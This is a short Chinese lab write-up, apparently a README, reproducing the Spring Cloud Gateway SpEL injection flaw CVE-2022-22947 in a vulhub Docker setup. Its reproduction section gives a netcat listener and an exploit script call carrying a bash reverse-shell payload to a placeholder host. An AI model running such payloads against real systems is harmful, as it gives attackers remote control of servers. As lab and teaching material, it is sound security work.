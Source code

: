 
## 0x00 环境搭建

  下载
  git clone https://github.com/vulhub/vulhub.git
  
  进入到spring文件夹内
  执行docker-compose up -d
  
## 0x01 介绍

  Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的 API 网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式。
  
  近日VMware官方发布了Spring Cloud Gateway存在SPEL表达式注入漏洞CVE-2022-22947，可导致未授权远程命令执行漏洞。
  影响版本：
  Spring Cloud Gateway < 3.1.1
  Spring Cloud Gateway < 3.0.7
  Spring Cloud Gateway 其他已不再更新的版本
  
## 0x02 漏洞复现

   ![图片](https://user-images.githubusercontent.com/118274389/224453966-8001feba-4973-4871-990d-344b25e7bb30.png)
 监听
 nc -nlvp 2222
 ![图片](https://user-images.githubusercontent.com/118274389/224454036-ec895f35-7c3e-43a7-891d-8029f05c0380.png)

进行反弹

python3 cve-2022-22947.py http://192.168.16.142:8080/ "bash -c 'exec bash -i &>/dev/tcp/xx.xx.xx.xx/1234 <&1'"

![图片](https://user-images.githubusercontent.com/118274389/224454085-9907e1a2-0d47-43b0-bfd1-b33554cc1410.png)

  
